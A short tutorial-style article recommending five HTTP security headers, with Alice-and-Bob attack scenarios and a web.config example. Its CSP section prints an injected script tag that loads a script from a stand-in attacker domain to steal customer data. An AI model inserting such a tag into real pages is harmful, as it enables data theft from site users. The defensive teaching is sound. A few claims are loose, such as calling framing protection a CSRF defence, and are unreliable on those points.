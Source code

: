 # Top-5 HTTP Security Headers in 2020

Nowadays, security is important as never before. I've prepared a very small article about the Top-5 security headers in 2020 that will help your site keep your users in safety. Have a nice reading!

## Content-Security-Policy

One of the most important security header. It was created to prevent the usage of any resource from an untrusted source.

Let's go to the short example first:

Evil Bob found [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

```html
<script src="https://my-evilt-site.org/very-evil-script.js"></script>
```

and waits for the results

Luckily, Alice knows about CSP header and already added it to the response : ```Content-Security-Policy: default-src 'self'```. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.

Withing this header you can deny inline scripts and eval usage (goodbye inline XSS), specify a checksum for the scripts (goodbye substitution of the 3rd party scripts), allow specific domains for your images, fonts, and styles. It can restrict fetch requests, deny usage of your site inside an iframe (goodbye [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)) and much more. CSP header is very flexible and can support almost all of your needs.

### Can I use?

CSP header [supported](https://caniuse.com/#feat=mdn-http_headers_csp_content-security-policy) by almost all browsers including IE (but with a special name - X-Content-Security-Policy). Some of the directives may not be supported across different browsers but this will not ruin the header.

### Code Example

* Allow all remote resources from your domain: ```Content-Security-Policy: default-src 'self'```. No external API calls allowed!
* Allow all remote resource from your domain and external api calls: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua```. IFraming is allowed.
* Allow all remote resource from your domain, external api calls, disallow iframing your site: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://my-example-api.ua; frame-ancestors 'none';``` Not so strict as I wish.
* Disallow everything except whitelisted: ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self'; frame-ancestors 'none'``` Much better now but without [critical css](https://developer.mozilla.org/en-US/docs/Web/Performance/Critical_rendering_path)
* Disallow everything except whitelisted (with inline css): ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'```

Examples are simplified just to give you a better understanding of the CSP header power. For additional info check the [mdn page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) and the [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/) is also very useful.

**Important Notice**: If you need to deny the possibility to iframe your site in IE - you should use [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)


## X-Content-Type-Options

This is a bit tricky header but it works very well with CSP, so it worth mentioning.

Imagine, that Evil Bob found XSS on Alice's site and tries to put some malicious script inside. But Alice already has setup CSP policy, so his attempt to download javascript from untrusted resources fails. But Evil Bob is smart. He changes the type of the injected script to "text/plain". Now, CSP protection will allow loading script, because it is not javascript anymore and should not be executed. But sometimes, browsers try to be too smart. They may check the content of the loading "text", and decide to execute it as JavaScript. This named sniffing and this behavior varies depending on the browser.

This header tells the browser,  strictly follow provided Mime/Type, and don't try to guess.

### Can I use?

[Supported](https://caniuse.com/#feat=mdn-http_headers_x-content-type-options) by all browsers except Safari.

### Code Example

Only one option is possible: ```X-Content-Type-Options: nosniff```

## Feature-Policy

This header is designed to turn off features that you don't expect to be used.

Alice has a nice and shiny site with a big audience. Evil Bob found XSS and decided to use Alice's site for spying using a user's web camera. So he injects malicious code and waits for the dozen of the new videos.

But, fortunately, Alice already set Feature-Policy header to ```Feature-Policy: camera 'none'```

Now, browsers know, that using a camera is not permitted for anyone, and Bob's attempt fails. Of course, you can turn off not only a camera but also autoplay (useful when you are showing some ads from 3rd party vendors), microphone and very much more. If you don't want to turn it off for all, you can allow to use it only for code from your domain.


### Can I use?

Partially [supported](https://caniuse.com/#feat=feature-policy) by most of the browsers and not supported by the IE.

### Code Example

Disabling geolocation:  ```Feature-Policy: geolocation 'none'```
Disabling sensetive features:  ```Feature-Policy: camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'```

## Strict-Transport-Security

This is a very simple header for those who use HTTPS. It tells the browser to use only HTTPS connection, even if the user is trying to use HTTP.

Let's imaging that Alice is sitting in a public place and use public WiFi. Evil Bob is sitting not very far from her and trying to sniff all non-encrypted traffic. Alice decides to visit some online-shop and uses an old and good link like www://my-example-shop.com. Evil Bob sees her request (it's not encrypted) and starts recording Alice's activity hoping to get credit card information. But, after the first request, the shop returns STS header: ```Strict-Transport-Security: max-age=31536000```. And browsers automatically redirects Alice to the HTTPS version of the page. From now, Evil Bob sees only encrypted traffic and can't steal anything.

## Can I use?

[Supported](https://caniuse.com/#feat=stricttransportsecurity) by all browsers except Opera Mini. And Yes, IE also supports this header.

### Code Example

```Strict-Transport-Security: max-age=31536000; includeSubDomains```

## Referrer-Policy

Controls how much of the referer information (host, query params, etc) are sent within the request.

Short example:

Alice has a forum about cats with lots of links to other resources. When a user clicks on the link, he is navigated to another web page, and this web page can gather some information about the source of the navigation. You value the privacy of your users and want to keep this information secret. You set Referer-Policy header and deny browser to send referer information for all except your self.

### Can I use?

Mostly [Supported](https://caniuse.com/#feat=referrer-policy) with all (IE - partially) browsers except Opera Mini

### Code Example

Showing referer info only for the origin: ```Referrer-Policy: same-origin```

## Summary:

As far as I use .NET, here is the result setup for web.config: (note, unsafe js inline is not supported):

```xml
<customHeaders>
    <add name="Content-Security-Policy" value="default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'" />
    <add name="Feature-Policy" value="camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'" />
    <add name="X-Content-Type-Options" value="nosniff"/>
    <add name="Referrer-Policy" value="same-origin"/>
    <add name="Strict-Transport-Security" value="max-age=31536000"/>
</customHeaders>
```

## Useful links:

* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)
* [Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy)
* [Using Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy/Using_Feature_Policy)
* [X-Content-Type-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/headers/X-Content-Type-Options)
* [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
* [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)


Bonus: web.config with all set headers can be found [here](https://github.com/Drag13/articles/blob/master/headers/web.config)

**Stay safe and don't forget to remove x-powered header! :)**

[Thanks to John Salvino for the photo]
